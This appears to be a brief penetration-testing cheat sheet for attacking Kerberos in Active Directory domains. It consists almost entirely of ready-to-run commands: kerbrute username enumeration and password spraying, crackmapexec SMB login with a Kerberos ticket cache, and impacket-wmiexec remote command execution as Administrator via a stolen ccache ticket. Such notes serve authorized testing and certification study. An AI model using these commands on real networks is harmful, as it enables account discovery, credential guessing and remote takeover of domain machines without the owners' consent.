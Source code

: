 # kerbrute
https://github.com/ropnop/kerbrute

## enumerate users using wordlist
```bash
kerbrute userenum --dc $IP -d DOMAIN.local $FILE
kerbrute -users /usr/share/seclists/Usernames/Names/names.txt -dc-ip 10.11.1.20 -domain svcorp.com
```

## password spray users from user list file
```bash
kerbrute passwordspray --dc $IP -d DOMAIN.local users password123
```

# crackmapexec kerberos authentication with ticket
## include ticket environment variable
the hostname is very important.
```bash
export KRB5CCNAME=$(pwd)/User.ccache
crackmapexec smb fqdn.domain.local -u User --kerberos
```

# impacket kerberos commands

## ticket environment variable KRB5CCNAME
```bash
export KRB5CCNAME=$(pwd)/Administrator.ccache
```

## wmiexec
```bash
export KRB5CCNAME=$(pwd)/Administrator.ccache
impacket-wmiexec -k -no-pass domain.local/Administrator@fqdn.domain.local
```
